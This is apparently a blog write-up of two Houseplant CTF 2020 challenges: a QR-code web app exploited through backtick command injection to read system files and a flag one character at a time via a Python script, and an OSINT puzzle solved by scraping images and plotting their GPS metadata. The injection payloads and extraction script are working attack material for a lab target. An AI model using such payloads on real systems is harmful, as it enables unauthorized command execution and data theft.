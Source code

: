 ```yaml
---
layout: post
title: 'Houseplant CTF 2020'
date: '2020-04-26T00:00:00.000-00:00'
author: Keramas
tags: [ctf]
---
```


The Houseplant CTF was pretty chill with a cool collection of fun challenges. While I will not be doing a full writeup on each of the challenges present during the competition, I wanted to highlight a couple of them which I thought were quite creative and very fun to solve. 

<img src = "/assets/images/houseplant/houseplant_logo.png">

## Challenge: QR Code Generator
### Category: Web

<img src = "/assets/images/houseplant/qr_challenge.png">

I'll start by saying that I have no clue if there was an easier way to solve this challenge, but I had fun doing it the way I solved it. 

We're presented with an application that generates QR codes based on the input supplied; however, it seems that when decoding the QR code it only reveals the first character of our input.

<img src = "/assets/images/houseplant/qr_challenge_homepage.png">

<img src = "/assets/images/houseplant/qr_challenge_test1.png">

The clue about the backticks immediatley suggested that there was a possibility of command injection by supplying it in between backticks, so let's perform a couple of tests:

- Read the /etc/passwd file, which should reveal an 'r' if it is indeed executing.

<img src = "/assets/images/houseplant/qr_challenge_passwdTest.png">

This results in an 'r' when decoded.

- Read the /etc/hosts file, which should reveal a '1'.

<img src = "/assets/images/houseplant/qr_code_hoststests.png">

This results in an '1' when decoded. 

Since this is a CTF, we can guess that there is a `flag.txt` in the current working directory, and this results in an 'r' which should be the beginning of our `rctp{}` formatted flag. So now that we have confirmed that there is a flag.txt present (more or less), we can still only read the first character for any output... But, luckily we can be a bit clever and use `cut` to read a single character in any position withint the content of the file. 

During the competition I also tried to exfil the data out by using Collaborator and nslookups, but that appeared to not work.

```bash
cat flag.txt|cut -c1
```
After confirming this, we can make a short Python script which will iterate through each character in the file, decode the QR code with the pyzbar library, and print the decoded message to the console.

```python
import requests
import sys
from pyzbar.pyzbar import decode
from PIL import Image

def download_qr(iteration):

    url = f"""http://challs.houseplant.riceteacatpanda.wtf:30004/qr?text=`cat+flag.txt|cut+-c{iteration}`"""
    r = requests.get(url,stream=True)
    file = open(f'{iteration}.png', 'wb') 
    file.write(r.content)
    file.close()


def main():

    flag = ""
    for i in range(1,35):
        download_qr(i)
        decoded = decode(Image.open(f'{i}.png'))
        data = decoded[0].data.decode("utf-8")
        sys.stdout.write(data)
        sys.stdout.flush()
    print("\n")

if __name__ == '__main__':
    main()


```

This results in our flag:

<img src = "/assets/images/houseplant/qr_flag.gif">



## Challenge: Catography  
### Category: OSINT

<img src = "/assets/images/houseplant/catography_challenge.png">

There is not much direction on what we should be looking for in this challenge; however, we do have a bunch of images--A lot of images (411 to be exact.), and other than that, there was not too much additional information that could be gleened from the server. 

So the first step is going to be collecting all of these images and exploring their metadata, and parsing through them a bit better for information that could be useful. While the page does not have any kind of indexing on the frontend, which causes the page to just scroll and scroll without any anchor, as well as means to load all the images at once, proxying the traffic through Burp will reveal that there is an API that is accessible. 

<img src = "/assets/images/houseplant/catography_burp_api.png">

Raw request:
```
GET /api?page=1 HTTP/1.1
Host: challs.houseplant.riceteacatpanda.wtf:30002
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challs.houseplant.riceteacatpanda.wtf:30002/
Connection: close
Cookie: connect.sid=s%3AuGs3_2ZEw4k2l-pTDIJWukodKfUno9gV.3dVpqyebN6R8G6lEYzE6zmUOGvKVEx%2BxWI6ypSWNfHU
```

Raw response:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 868
ETag: W/"364-H6Y9yd2aQ577rhdXWrT/ZvVALgU"
Date: Sat, 25 Apr 2020 04:03:13 GMT
Connection: close

{"has_more":true,"data":[{"author":"Gretchen Auer","link":"https://unsplash.com/photos/LniCHRac5SE","authorLink":"https://unsplash.com/@gretchen10019","id":"002c1282-11e2-4d01-bfff-348ab6f0301c"},{"author":"Cassidy James Blaede","link":"https://unsplash.com/photos/TA22tc6YyMw","authorLink":"https://unsplash.com/@cassidyjames","id":"002c3599-572f-4d23-8fd2-3eb8b3073ab5"},{"author":"Ramiz Dedaković","link":"https://unsplash.com/photos/9SWHIgu8A8k","authorLink":"https://unsplash.com/@ramche","id":"00a1a955-400a-4f7d-b210-bf03ff0e85ae"},{"author":"Pablo Martinez","link":"https://unsplash.com/photos/SrcwPPb0Yh4","authorLink":"https://unsplash.com/@pablomp","id":"015669ee-a3b1-473f-ba8e-bad8eaf76274"},{"author":"Cédric VT","link":"https://unsplash.com/photos/IuJc2qh2TcA","authorLink":"https://unsplash.com/@ced_vt","id":"01659835-09af-4c23-884a-2230141463d4"}]}
```

This API will list JSON data about each image. 

Right-clicking on an image to save the image address reveals that we need the ID of each image to make a direct call to it for downloading. As an example:
`http://challs.houseplant.riceteacatpanda.wtf:30002/images/002c1282-11e2-4d01-bfff-348ab6f0301c.jpg`

Since our API response lists the ID for each image, we can make a loop to iterate through each page number to collect all of the IDs, and then build out a wget command to download all of these images for further processing.

We can pipe curl output to the `jq` program to parse through our JSON responses to extract only the IDs.

```bash
root@Exia:~/Documents/ctfs# curl http://challs.houseplant.riceteacatpanda.wtf:30002/api?page=1 -s | jq '.data[].id'
"002c1282-11e2-4d01-bfff-348ab6f0301c"
"002c3599-572f-4d23-8fd2-3eb8b3073ab5"
"00a1a955-400a-4f7d-b210-bf03ff0e85ae"
"015669ee-a3b1-473f-ba8e-bad8eaf76274"
"01659835-09af-4c23-884a-2230141463d4"
```

To quickly determine when to end our loop, Burp Intruder can be used to determine the max amount of pages, which can be validated by empty responses.

<img src = "/assets/images/houseplant/catography_intruder.png">

We'll then make a loop to grab all of the IDs and output them to a file.

```bash
for i in $(seq 1 84); do curl http://challs.houseplant.riceteacatpanda.wtf:30002/api?page=\${i} -s | jq '.data[].id' >> guids.txt; done
```

With a list of IDs, we can clean it up with `sed` and make it into a full URL so we can make a loop to download all the images.
```bash
sed -i 's/"//g' guids.txt 
sed -i 's/$/\.jpg/g' guids.txt
sed -i 's/^/http:\/\/challs\.houseplant\.riceteacatpanda\.wtf:30002\/images\//g' guids.txt
```

Finally, we grab them all with a while loop by feeding it our ID file.

```bash
while IFS= read -r line; do wget $line; done < guids.txt
```

After looking at a couple of images, each picture had unique GPS data, and nothing else was really important or found. Looking at a couple of the GPS locations in Google Maps, nothing was present or interesting, but then when considering the amount of data that was present--perhaps there could be a message if all of the locations are plotted out?

With this idea in mind, let's extract the GPS data for all the images and import it into Google Maps.

First, we need to convert the format of the GPS data so it matches what is required for Google Maps, and we can do that with `exiftool -c "%.6f"`. We'll pipe that into grep and then just extract the GPS positional data to dump into a CSV file.

```bash
exiftool -c "%.6f" * | grep 'GPS Position' | cut -d":" -f2 > coords.csv
```

Checking the file everything looks good.

```
root@Exia:~/Documents/ctfs/images# head coords.csv
 27.839076 S, 169.537513 W
 29.993002 S, 169.713326 W
 31.653381 S, 169.889138 W
 33.578015 S, 169.801232 W
 35.817813 S, 169.713326 W
 37.439974 S, 169.449607 W
 30.600094 S, 167.691482 W
 28.071980 S, 165.845450 W
 27.215556 S, 163.999419 W
 27.215556 S, 161.977575 W
```

Uploading this CSV file to Google Maps reveals a (somewhat hard to read) flag spelled out in GPS plot points.

<img src = "/assets/images/houseplant/catography_flag.png">











